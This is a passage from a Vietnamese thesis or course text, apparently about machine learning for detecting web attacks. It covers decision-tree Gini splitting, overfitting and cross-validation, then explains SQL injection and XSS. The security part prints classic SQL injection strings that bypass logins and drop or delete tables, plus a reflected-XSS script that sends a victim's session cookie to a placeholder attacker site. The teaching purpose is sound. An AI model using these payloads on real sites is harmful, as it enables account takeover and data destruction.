Tiếp theo, tính tổng có trọng số gini index của các tập con:

\begin{eqnarray*}
\mathbf{Gini}(A, \mathcal{S}) 
& = & \frac{1}{5} \mathbf{Gini}(\mathcal{S}_1) + \frac{4}{5} \mathbf{Gini}(\mathcal{S}_2) \\
& = & \frac{1}{5}\cdot 0 + \frac{4}{5}\cdot\frac{1}{2} \\
& \approx & 0.4
\end{eqnarray*}

\item Với ngưỡng $T_B = 4.5$, có 2 tập dữ liệu được phân tách như sau:

\begin{table}[ht!]
\centering
\begin{tabular}{|>{\centering\arraybackslash}p{3cm}|>{\centering\arraybackslash}p{2cm}|>{\centering\arraybackslash}p{2cm}|>{\centering\arraybackslash}p{2cm}|}
\hline
\textbf{Tập dữ liệu con} & \textbf{A} & \textbf{B} & \textbf{Label} \\ \hline
\multirow{2}{*}{Set 1 ($\mathcal{S}_1$)}  & 1          & 5          & 1              \\ \cline{2-4} 
                         & 2          & 5          & 0              \\ \hline
\multirow{3}{*}{Set 2 ($\mathcal{S}_2$)}  & 1          & 4          & 0              \\ \cline{2-4} 
                         & 2          & 4          & 1              \\ \cline{2-4} 
                         & 3          & 4          & 1              \\ \hline
\end{tabular}
\caption{Các tập dữ liệu con được tách từ ngưỡng $T_B = 4.5$}
\label{tab:data_3}
\end{table}

Ở mỗi tập con, tính giá trị gini index:

\begin{itemize}
\item Set 1: $\mathbf{Gini}(\mathcal{S}_1) = \frac{1}{2}$
\item Set 2: $\mathbf{Gini}(\mathcal{S}_2) = \frac{4}{9}$
\end{itemize}

Tiếp theo, tính tổng có trọng số gini index của các tập con:

\begin{eqnarray*}
\mathbf{Gini}(B, \mathcal{S}) 
& = & \frac{2}{5} \mathbf{Gini}(\mathcal{S}_1) + \frac{3}{5} \mathbf{Gini}(\mathcal{S}_2) \\
& = & \frac{2}{5}\cdot\frac{1}{2} + \frac{3}{5}\cdot\frac{4}{9} \\
& \approx & 0.47
\end{eqnarray*}
\end{itemize}

Sau khi tính xong giá trị tổng có trọng số \textbf{Gini} ở mỗi tập con ta thấy giá trị gini ở $T_A = 2.5$ là thấp nhất. Vì giá trị Gini để chỉ độ không sạch. Ta lại muốn dữ liệu sau khi phân vào các nhóm phải càng sạch càng tốt (càng nhiều dữ liệu cùng loại), nên chọn giá trị thấp nhất.

Do đó, chọn ngưỡng $T_A = 2.5$ tương ứng với thuộc tính A để phân tách.

Từ mỗi tập vừa được phân tách từ thuộc tính A đó, thực hiện tiếp tục các công việc như trên cho đến khi phát hiện nút lá chỉ tồn tại \textbf{một điểm dữ liệu} hoặc \textbf{tất cả các điểm dữ liệu nằm trong nút lá đó đều cùng một nhãn}.

Sau khi kết thúc thu có được một cây hoàn chỉnh như hình \ref{fig:decision_tree_final}.

\begin{figure}[ht!]
\centering
\includegraphics[scale=0.6]{decision_final}
\caption{Cây hoàn chỉnh sau khi thực hiện thuật toán CART}
\label{fig:decision_tree_final}
\end{figure}

\subsubsection*{Cây dừng lại khi nào?}
\label{sec:stop_trees}
Như nêu ở ví dụ trên, quá trình xây dựng cây dừng lại khi tất cả điểm dữ liệu trong lá cùng loại. Nhưng vấn đề xảy ra lúc này là cây quá chính xác dẫn khi gặp dữ liệu mới, dữ liệu chưa  được học có thể quyết định sai mặc dù quá trình xây dựng cây có hiệu suất rất cao. Vấn đề này gọi là: \textbf{overfitting}. Để giải quyết vấn đề này ta có thể áp dụng các cách sau:

\begin{itemize}
\item Giới hạn độ sâu của cây, dừng khi độ sâu của cây tiếp tục tăng nhưng độ nhận diện sai trên tập dữ liệu kiểm thử các thông số không giảm. 

$\to$ Nhược điểm: phải lặp lại thuật toán nhiều lần, khó khăn trong trường hợp muốn nhánh này phát triển sâu hơn nhánh khác.
\item Dừng khi độ sai số trên tập kiểm thử không giảm.

$\to$ Nhược điểm: Sai trong phép toán XOR. Việc dừng sớm có thể bỏ qua các nhánh hữu dụng sau này.
\item Giới hạn phần tử nhỏ nhất trong lá. Áp dụng công thức \emph{Total Cost = Error + Lamda * <Số lá>}. Tùy chỉnh để cân đối số lá của cây và độ sai số khi dự đoán trên tập kiểm thử.
\end{itemize}

\subsubsection*{Giải quyết vấn đề dữ liệu bị thiếu giá trị ở một thuộc tính nào đó}
Dữ liệu không phải lúc nào cũng hoàn mỹ nên có thể ở một điểm dữ liệu nào đó có một thuộc tính bị thiếu giá trị, làm ảnh hưởng đến quá trình xây dựng cây. Ví dụ ở một số thuộc tính bị khuyết giá trị như trong bảng \ref{tab:data_err}.

\begin{table}[ht!]
\centering
\begin{tabular}{|>{\centering\arraybackslash}p{2.5cm}|>{\centering\arraybackslash}p{2.5cm}|>{\centering\arraybackslash}p{2.5cm}|>{\centering\arraybackslash}p{2.5cm}|}
\hline
\textbf{A} & \textbf{B} & \textbf{C} & \textbf{Label} \\ \hline
1          & ?          & a          & 0              \\ \hline
?          & 4          & ?          & 1              \\ \hline
3          & ?          & ?          & 1              \\ \hline
?          & 5          & c          & 1              \\ \hline
2          & ?          & a          & 0              \\ \hline
\end{tabular}
\caption{Dữ liệu mẫu cho trường hợp dữ liệu bị khuyết}
\label{tab:data_err}
\end{table}

Dấu \textbf{``?''} là những chỗ có giá trị bị khuyết.

Sau đây là gợi ý một số cách để giải quyết vấn đề này:

\begin{enumerate}
\item Loại bỏ những điểm dữ liệu thiếu giá trị đặc tính.

Nếu quá nhiều điểm dữ liệu thiếu giá trị của đặc tính này thì bỏ luôn đặc tính này.

Như ví dụ ở bảng \ref{tab:data_err}, thuộc tính \textbf{B} bị thiếu quá nhiều, do đó có thể loại bỏ thuộc tính B. Điểm dữ liệu thứ 3 $\{A=3, B=?, C=?, Label=1 \}$ thiếu tới 2 giá trị, có thể loại bỏ điểm dữ liệu này.

\begin{itemize}
\item Ưu điểm:
\begin{itemize}
\item Dễ dàng hiểu và thực hiện.
\item Có thể áp dụng với nhiều mô hình thuật toán khác nhau.
\end{itemize}
\item Nhược điểm:
\begin{itemize}
\item Có thể xóa nhầm những thuộc tính hoặc điểm dữ liệu quan trọng.
\item Không rõ ràng, nên ưu tiên xóa điểm dữ liệu thiếu giá trị hay xóa luôn đặc tính, xóa cái nào thì tốt hơn.
\item Tại thời điểm dự đoán, phương pháp này không sử dụng được, chỉ sử dụng trong giai đoạn tạo thành cây.
\end{itemize}
\end{itemize}

\item Đoán dữ liệu để thêm vào chỗ thiếu.

Nếu dữ liệu thiếu, chọn dữ liệu xuất hiện nhiều nhất để điền vào những chỗ thiếu.

Dữ liệu có giá trị thuộc dạng số thì tính trung bình các giá trị của đặc tính đó rồi thêm vào chỗ bị thiếu.

\begin{itemize}
\item Ưu điểm:
\begin{itemize}
\item Dễ dàng hiểu và triển khai.
\item Có thể áp dụng tới nhiều mô hình (\emph{Decision trees, logistic, regression, linear regression}, \ldots).
\end{itemize}
\item Nhược điểm: kết quả có thể dẫn đến lỗi hệ thống. Ví dụ trường hợp các giá trị đặc tính B phải là giá trị nguyên. Nhưng khi tính ra giá trị trung bình là số thập phân $\Rightarrow$ xảy ra lỗi.
\end{itemize}

\item Trong quá trình dự đoán, có thể chỉ rõ nhánh kế tiếp để đưa dữ liệu vào khi giá trị điểm dữ liệu tại nhánh đó bị thiếu.

\begin{example}
Theo trong hình \ref{fig:ex_term_problem} là mô hình dự đoán tính an toàn của đơn mượn nợ tại ngân hàng. Giả sử điểm dữ liệu đầu vào bị thiếu giá trị đặc tính \textbf{Term}. Nếu giá trị của \textbf{Credit} là \emph{fair}, ta mặc định sẽ dự đoán đơn mượn nợ này là \textbf{Risky}. Nhưng nếu Credit là \emph{poor}, Income là hight mặc định sẽ dự đoán đơn mượn nợ này \textbf{Safe}.
\end{example}

\begin{figure}[ht!]
\centering
\includegraphics{example_problem}
\caption{Ví dụ về đoán dữ liệu để thêm vào thuộc tính Term}
\label{fig:ex_term_problem}
\end{figure}

\begin{itemize}
\item Ưu điểm:
\begin{itemize}
\item Giải quyết việc thiếu dữ liệu cả trong quá trình huấn luyện xây dựng cây và trong quá trình dự đoán.
\item Nếu điều chỉnh thích hợp, độ chính xác cao.
\end{itemize}
\item Nhược điểm: yêu cầu phải điều chỉnh thuật toán nhiều lần (điều này đơn giản với thuật toán cây quyết định).
\end{itemize}
\end{enumerate}

\subsection{Validation và Cross-validation}
Phần trước có nhắc đến overfitting, và giải quyết dựa vào điểm dừng khi xây dựng cây. Nhưng rộng ra, chúng ta sẽ tìm hiểu hai kỹ thuật là \textbf{validation} và \textbf{cross-validation} để tránh overfitting.

Nhắc lại về overfitting, \textbf{overfitting} là hiện tượng mô hình tìm được \emph{quá khớp} với dữ liệu huấn luyện. Việc quá khớp này có thể dẫn đến việc dự đoán nhầm nhiễu, và chất lượng mô hình không còn tốt trên dữ liệu kiểm tra nữa. Dữ liệu kiểm tra được giả sử là không biết trước, và không được sử dụng để xây dựng các mô hình \gls{ml}.

Về cơ bản, overfitting xảy ra khi mô hình quá phức tạp để mô phỏng dữ liệu huấn luyện. Điều này đặc biệt xảy ra khi lượng dữ liệu huấn luyện quá nhỏ trong khi độ phức tạp của mô hình quá cao.

Trước khi đi vào validation và cross-validation cần biết qua các đại lượng để đánh giá chất lượng của mô hình trên dữ liệu huấn luyện và dữ liệu kiểm tra. Dưới đây là hai đại lượng đơn giản, với giả sử \(\mathbf{y}\) là đầu ra thực sự (có thể là vector), và \(\mathbf{\hat{y}}\) là đầu ra dự đoán bởi mô hình:

\begin{itemize}
\item \textbf{Train error}: thường là hàm mất mát áp dụng lên dữ liệu huấn luyện. Hàm mất mát này cần có một thừa số \(\frac{1}{N_{\text{train}}} \) để tính giá trị trung bình, tức mất mát trung bình trên mỗi điểm dữ liệu.
\item \textbf{Test error:} tương tự như trên nhưng áp dụng mô hình tìm được vào dữ liệu kiểm tra. Chú ý rằng, khi xây dựng mô hình, ta không được sử dụng thông tin trong tập dữ liệu kiểm tra. Dữ liệu kiểm tra chỉ được dùng để đánh giá mô hình.
\end{itemize}

Một mô hình được coi là tốt (fit) nếu cả \emph{train error} và \emph{test error} đều thấp. Nếu train error thấp nhưng test error cao, ta nói mô hình bị \textbf{overfitting}. Nếu train error cao và test error cao, ta nói mô hình bị \textbf{underfitting}.

\subsubsection*{Validation}
Chúng ta quen với việc chia tập dữ liệu ra thành hai tập nhỏ: \emph{dữ liệu huấn luyện} (training data) và \emph{dữ liệu kiểm tra} (test data). Vậy làm cách nào để biết được chất lượng của mô hình với dữ liệu chưa biết (\emph{unseen data})?

Phương pháp đơn giản nhất là trích từ tập \emph{dữ liệu huấn luyện} ra một tập con nhỏ và thực hiện việc đánh giá mô hình trên tập con nhỏ này. Tập con nhỏ được trích ra từ tập huấn luyện này được gọi là \textbf{validation set}. Lúc này, tập huấn luyện là phần còn lại của tập ban đầu. \emph{Train error} được tính trên tập huấn luyện mới này, và có một khái niệm nữa được định nghĩa tương tự như trên \textbf{validation error}, tức error được tính trên tập validation.

Việc này giống như khi ôn thi. Giả sử không biết đề thi như thế nào nhưng có 10 bộ đề thi từ các năm trước. Để xem trình độ của mình trước khi thi thế nào, có một cách là bỏ riêng một bộ đề ra, không ôn tập gì. Việc ôn tập sẽ được thực hiện dựa trên 9 bộ còn lại. Sau khi ôn tập xong, lấy bộ đề đã để riêng ra làm thử và kiểm tra kết quả, như thế mới ``khách quan'', mới giống như thi thật. 10 bộ đề ở các năm trước là ``toàn bộ'' tập huấn luyện. Để tránh việc học lệch, học tủ theo chỉ 10 bộ, tách 9 bộ ra làm tập huấn luyện thật, bộ còn lại là validation test. Khi làm như thế thì mới đánh giá được việc học đã tốt thật hay chưa, hay chỉ là học tủ. Vì vậy, \emph{overfitting} còn có thể so sánh với việc \emph{học tủ} của con người.

Với khái niệm mới này, cần tìm mô hình sao cho cả \emph{train eror} và \emph{validation error} đều nhỏ, qua đó có thể dự đoán được test error cũng nhỏ. Phương pháp thường dùng là sử dụng nhiều mô hình khác nhau. Mô hình nào cho validation error nhỏ nhất sẽ là mô hình tốt.

Thông thường, bắt đầu từ mô hình đơn giản, sau đó tăng dần độ phức tạp của mô hình. Tới khi nào validation error có chiều hướng tăng lên thì chọn mô hình ngay trước đó. Chú ý rằng mô hình càng phức tạp, train error có xu hướng càng nhỏ đi.

\subsubsection*{Cross-validation}
Trong nhiều trường hợp, có rất nhiều sự hạn chế về số lượng dữ liệu để xây dựng mô hình. Nếu lấy quá nhiều dữ liệu trong tập huấn luyện ra làm dữ liệu cho tập validation, phần dữ liệu còn lại của tập huấn luyện là không đủ để xây dựng mô hình. Lúc này, tập validation phải thật nhỏ để giữ được lượng dữ liệu cho tập huấn luyện đủ lớn. Tuy nhiên, một vấn đề khác nảy sinh. Khi tập validation quá nhỏ, hiện tượng overfitting lại có thể xảy ra với tập huấn luyện còn lại. Có giải pháp nào cho tình huống này không?

\emph{Cross validation} là một cải tiến của \emph{validation} với lượng dữ liệu trong tập validation là nhỏ nhưng chất lượng mô hình được đánh giá trên nhiều tập validation khác nhau. Một cách thường được sử dụng là chia tập huấn luyện ra \(k\) tập con không có phần tử chung, có kích thước gần bằng nhau. Tại mỗi lần kiểm thử, được gọi là \emph{run}, một trong số \(k\) tập con được lấy ra làm \emph{validata set}. Mô hình sẽ được xây dựng dựa vào hợp của \(k-1\) tập con còn lại. Mô hình cuối được xác định dựa trên trung bình của các \emph{train error} và \emph{validation error}. Cách làm này còn có tên gọi là \textbf{k-fold cross validation}.

Khi \(k\) bằng với số lượng phần tử trong tập training ban đầu, tức mỗi tập con có đúng 1 phần tử, thì kĩ thuật này được gọi là \textbf{leave-one-out}.

Scikit-learn \footnote{\textbf{Scikit-learn} (hay \emph{sklearn}) là thư viện nguồn mở hỗ trợ rất tốt cho machine learning trong Python.} hỗ trợ rất nhiều phương thức cho phân chia dữ liệu và tính toán \emph{scores} của các mô hình.
\section{Một số lỗ hổng tấn công web phổ biến}
Việc tìm hiểu các hình thức tấn công web và một số lỗ hổng phổ biến trên ứng dụng web góp phần nào để hiểu được cách thức để nhận dạng một traffic là bình thường hay bất thường. Khi đó, mới có thể khai thác tốt được các đặc trưng của tập dữ liệu được sử dụng để huấn luyện. Thông thường một traffic bất thường sẽ chứa những pattern (mẫu) của các lỗ hổng tấn công, thường những lỗ hổng phổ biến sẽ có những pattern rõ ràng. Chính vì vậy, hai lỗ hổng phổ biến nhất trong ứng dụng web là \emph{SQL injection} và \emph{XSS} được chọn để trình bày.
\subsection{SQL Injection}
Đa số ứng dụng web ngày nay đều quản lý và đáp ứng các yêu cầu truy xuất dữ liệu
thông qua ngôn ngữ truy vấn cấu trúc SQL. Các hệ quản trị Cơ Sở Dữ Liệu (CSDL) thông dụng
như Oracle, MS SQL hay MySQL đều có chung một đặc điểm này, chính vì vậy những
dạng tấn công liên quan đến SQL thường được xếp hàng đầu trong danh sách các lỗ hổng nguy hiểm nhất, và dạng tấn công vào những lỗi này gọi là SQL injection.

SQL injection là một kỹ thuật cho phép những kẻ tấn công lợi dụng lỗ hổng của việc kiểm tra dữ liệu đầu vào trong các ứng dụng web và các thông báo lỗi của hệ quản trị CSDL trả về để inject (tiêm vào) và thi hành các câu lệnh SQL bất hợp pháp. SQL injection có thể cho phép những kẻ tấn công thực hiện các thao tác như \emph{delete}, \emph{insert}, \emph{update}, \ldots trên CSDL của ứng dụng, thậm chí là server mà ứng dụng đó đang chạy. SQL injection thường được biết đến như là một vật trung gian tấn công trên các ứng dụng web có dữ liệu được quản lý bằng các hệ quản trị CSDL như SQL Server, MySQL, Oracle, DB2, Sysbase, \ldots.

Sau đây là một số lỗi thường gặp với SQL injection kèm theo ví dụ để rõ hơn về loại tấn công này:

\subsubsection*{Không kiểm tra kí tự thoát truy vấn}
Đây là dạng lỗi SQL injection xảy ra khi thiếu đoạn mã kiểm tra dữ liệu đầu vào trong câu truy vấn SQL. Kết quả là người dùng cuối có thể thực hiện một số truy vấn không mong muốn với CSDL của ứng dụng.

\begin{example}
Dòng mã dưới đây sẽ minh họa cho lỗi này như sau:

\begin{lstlisting}
statement = "SELECT * FROM users WHERE name = '" + userName + "';"
\end{lstlisting}
\end{example}

Câu lệnh trên được thiết kế để trả về các bản ghi tên người dùng cụ thể từ bảng những người dùng. Tuy nhiên, nếu biến \textbf{userName} được nhập chính xác theo một cách nào đó bởi người dùng ác ý, có thể trở thành một câu truy vấn SQL với mục đích khác hẳn so với mong muốn của tác giả trong đoạn mã trên. Ví dụ, nhập vào giá trị của biến \textbf{userName} như sau:

\begin{lstlisting}
' OR '1'='1
\end{lstlisting}

Hoặc có thể sử dụng comment để loại bỏ các kí tự phía sau. Bên dưới là 3 loại comment khác nhau tùy vào hệ quản trị CSDL:

\begin{lstlisting}
' OR '1'='1' --
' OR '1'='1' #
' OR '1'='1' /*
\end{lstlisting}

Khiến câu truy vấn có thể được hiểu như sau:

\begin{lstlisting}[language=SQL]
SELECT * FROM users WHERE name = '' OR '1'='1';
SELECT * FROM users WHERE name = '' OR '1'='1' -- ';
\end{lstlisting}

Nếu đoạn mã trên được sử dụng trong một thủ tục xác thực thì ví dụ trên có thể vượt qua được thủ tục đó bởi điều kiện trong \textbf{WHERE} luôn hợp lệ bởi 1=1 luôn đúng. Trong khi hầu hết các SQL server cho phép thực hiện nhiều truy vấn cùng lúc chỉ với một lần gọi, tuy nhiên một số SQL API như \textbf{mysql\_query} của PHP lại không cho phép điều đó vì lý do bảo mật. Điều này chỉ ngăn cản tin tặc tấn công bằng cách sử dụng các câu lệnh riêng rẽ mà không ngăn cản tin tặc thay đổi các từ trong cú pháp truy vấn. Các giá trị của biến \textbf{userName} trong câu truy vấn dưới đây sẽ gây ra việc xoá những người dùng từ bảng người dùng cũng tương tự như việc xóa tất cả các dữ liệu được từ bảng dữ liệu (về bản chất là tiết lộ các thông tin của người dùng), ở đây biến \textbf{userName} có giá trị sau cho phép thực hiện nhiều truy vấn cùng lúc:

\begin{lstlisting}
a';DELETE FROM users WHERE 't' = 't
\end{lstlisting}


Điều này đưa tới cú pháp cuối cùng của câu truy vấn trên như sau:

\begin{lstlisting}[language=SQL]
SELECT * FROM users WHERE name = 'a';DELETE FROM users WHERE 't' = 't';
\end{lstlisting}

\subsubsection*{Xử lí không đúng kiểu}
Lỗi SQL injection dạng này thường xảy ra do lập trình viên hay người dùng định nghĩa đầu vào dữ liệu không rõ ràng hoặc thiếu bước kiểm tra và lọc kiểu dữ liệu đầu vào. Điều này có thể xảy ra khi một trường số được sử dụng trong truy vấn SQL nhưng lập trình viên lại thiếu bước kiểm tra dữ liệu đầu vào để xác minh kiểu của dữ liệu mà người dùng nhập vào có phải là số hay không.

\begin{example}
Ta có một đoạn code sau minh họa cho lỗi này:

\begin{lstlisting}
statement:= "SELECT * FROM data WHERE id = " + varA + ";"
\end{lstlisting}
\end{example}

Có thể nhận thấy một cách rõ ràng ý định của tác giả đoạn mã trên là nhập vào một số tương ứng với trường id - \emph{trường số}. Tuy nhiên, người dùng cuối, thay vì nhập vào một số, có thể nhập vào một chuỗi ký tự, và do vậy có thể trở thành một câu truy vấn SQL hoàn chỉnh mới mà bỏ qua ký tự thoát. Thiết lập giá trị của biến \textbf{varA} là:

\begin{lstlisting}
1;DROP TABLE users
\end{lstlisting}

Khi đó sẽ thực hiện thao tác xóa bảng \textbf{users} khỏi CSDL, vì câu truy vấn hoàn chỉnh đã được hiểu là:

\begin{lstlisting}[language=SQL]
SELECT * FROM data WHERE id=1;DROP TABLE users;
\end{lstlisting}

\subsubsection*{Lỗi bảo mật bên trong máy chủ cơ sở dữ liệu}
Đôi khi lỗ hổng có thể tồn tại chính trong phần mềm máy chủ CSDL, như là trường hợp hàm \textbf{mysql\_real\_escape\_string()} của các máy chủ MySQL. Điều này sẽ cho phép kẻ tấn công có thể thực hiện một cuộc tấn công SQL injection thành công dựa trên những ký tự Unicode \emph{không thông thường} ngay cả khi đầu vào đang được thoát.

\subsubsection*{Blind SQL injection}
Lỗi SQL injection dạng này là dạng lỗi tồn tại ngay trong ứng dụng web nhưng hậu quả của chúng lại không hiển thị trực quan cho những kẻ tấn công. Lỗi này có thể gây ra sự sai khác khi hiển thị nội dung của trang. Hậu quả của tấn công SQL injection dạng này khiến cho lập trình viên hay người dùng phải mất rất nhiều thời gian để phục hồi chính xác từng bit dữ liệu. Những kẻ tấn công còn có thể sử dụng một số công cụ để dò tìm lỗi dạng này và tấn công với những thông tin đã được thiết lập sẵn.

\subsubsection*{Thời gian trễ}
Lỗi SQL injection dạng này tồn tại khi thời gian xử lý của một hay nhiều truy vấn SQL phụ thuộc vào dữ liệu logic được nhập vào hoặc quá trình xử lý truy vấn của SQL engine cần nhiều thời gian. Tin tặc có thể sử dụng lỗi SQL injection dạng này để xác định thời gian chính xác mà trang cần tải khi giá trị nhập vào là đúng.

\subsection{Cross-Site Scripting (XSS)}
\textbf{Cross-Site Scripting (XSS} là một lỗ hổng phổ biến trong ứng dụng web. Để khai thác lỗ hổng này, hacker sẽ chèn mã độc (các đoạn script) để thực thi chúng ở phía client. Thông thường, các cuộc tấn công XSS được sử dụng để vượt qua các kiểm soát truy cập và mạo danh người dùng.

Có 3 loại XSS cơ bản bao gồm: \emph{Reflected XSS}, \emph{Stored XSS} và \emph{DOM-based XSS}

\subsubsection*{Reflected XSS}
Ở dạng tấn công này, hacker sẽ gửi cho nạn nhân một URL có chứa đoạn mã nguy hiểm. Nạn nhân chỉ cần gửi request đến URL này thì hacker sẽ có được kết quả mong muốn. Cụ thể kịch bản này như sau:

\begin{enumerate}
\item Người dùng đăng nhập web và giả sử được gán session với cookie định danh sau:

\begin{lstlisting}
Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4
\end{lstlisting}

\item Bằng cách nào đó, hacker gửi được cho người dùng URL:
 
\begin{lstlisting}
http://example.com/name=%3Cscript%3Evar+i%3Dnew+Image%3B+i.src%3D%E2%80%9Dhttp%3A%2F%2Fhacker-site.net%2F%E2%80%9D%2Bdocument.cookie%3B%3C%2Fscript%3E
\end{lstlisting}

Giả sử \textbf{example.com} là website nạn nhân truy cập, \textbf{hacker-site.net} là trang của hacker tạo ra.

\item Nạn nhân truy cập đến URL trên.
\item Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request (đoạn javascript của hacker).
\item Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript. Đoạn javascript mà hacker tạo ra thực tế như sau:

\begin{lstlisting}[language=HTML]
<script>var i=new Image; i.src="http://hacker-site.net/"+document.cookie;</script>
\end{lstlisting}

Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:

\begin{lstlisting}
GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1
Host: hacker-site.net
\end{lstlisting}

\item Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng đã bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.
\end{enumerate}

Kịch bản khai thác trên được mô tả như hình \ref{fig:xss_reflect}.

\begin{figure}[ht!]
\centering
\includegraphics[scale=0.6]{xss-reflect}
\caption{Kịch bản khai thác lỗ hổng Reflected XSS}
\label{fig:xss_reflect}
\end{figure}

\subsubsection*{Stored XSS}
Khác với Reflected tấn công trực tiếp vào một số nạn nhân mà hacker nhắm đến, Stored XSS hướng đến nhiều nạn nhân hơn. Lỗi này xảy ra khi ứng dụng web không kiểm tra kỹ các dữ liệu đầu vào trước khi lưu vào CSDL. Ví dụ như các biểu mẫu góp ý, các bình luận, \ldots trên các trang web.

Với kỹ thuật Stored XSS, hacker không khai thác trực tiếp mà phải thực hiện tối thiểu qua 2 bước.

Đầu tiên hacker sẽ thông qua các điểm đầu vào (form, input, textarea, \ldots) không được kiểm tra kỹ để chèn vào CSDL các đoạn mã nguy hiểm.

Tiếp theo, khi người dùng truy cập vào ứng dụng web và thực hiện các thao tác liên quan đến dữ liệu được lưu này, đoạn mã của hacker sẽ được thực thi trên trình duyệt người dùng.

Các bước khai thác được mô tả như ở hình \ref{fig:xss_stored}.

\begin{figure}[ht!]
\centering
\includegraphics[scale=0.5]{xss-stored}
\caption{Kịch bản khai thác lỗ hổng Stored XSS}
\label{fig:xss_stored}
\end{figure}

Reflected XSS và Stored XSS có 2 sự khác biệt lớn trong quá trình tấn công.

\begin{itemize}
\item Thứ nhất, để khai thác Reflected XSS, hacker phải lừa được nạn nhân truy cập vào URL của mình. Còn Stored XSS không cần phải thực hiện việc này, sau khi chèn được mã nguy hiểm vào CSDL của ứng dụng, hacker chỉ việc ngồi chờ nạn nhân tự động truy cập vào. Với nạn nhân, việc này là hoàn toàn bình thường vì họ không hề hay biết dữ liệu mình truy cập đã bị nhiễm độc.
\item Thứ hai, mục tiêu của hacker sẽ dễ dàng đạt được hơn nếu tại thời điểm tấn công nạn nhân vẫn trong phiên làm việc (session) của ứng dụng web. Với Reflected XSS, hacker có thể thuyết phục hay lừa nạn nhân đăng nhập rồi truy cập đến URL mà hacker cung cấp để thực thi mã độc. Nhưng Stored XSS thì khác, vì mã độc đã được lưu trong CSDL Web nên bất cứ khi nào người dùng truy cập các chức năng liên quan thì mã độc sẽ được thực thi, và nhiều khả năng là những chức năng này yêu cầu phải xác thực (đăng nhập) trước nên hiển nhiên trong thời gian này người dùng vẫn đang trong phiên làm việc.
\end{itemize}

Từ những điều này có thể thấy Stored XSS nguy hiểm hơn Reflected XSS rất nhiều, đối tượng bị ảnh hưởng có thế là tất cả những người sử dụng ứng dụng web đó. Và nếu nạn nhân có vai trò quản trị thì còn có nguy cơ bị chiếm quyền điều khiển web.

\subsubsection*{DOM Based XSS}
DOM Based XSS là kỹ thuật khai thác XSS dựa trên việc thay đổi cấu trúc DOM của tài liệu, cụ thể là HTML. 

\begin{example}
Một website có URL đến trang đăng ký như sau:

\begin{lstlisting}
http://example.com/register.php?message=Please fill in the form
\end{lstlisting}
\end{example}

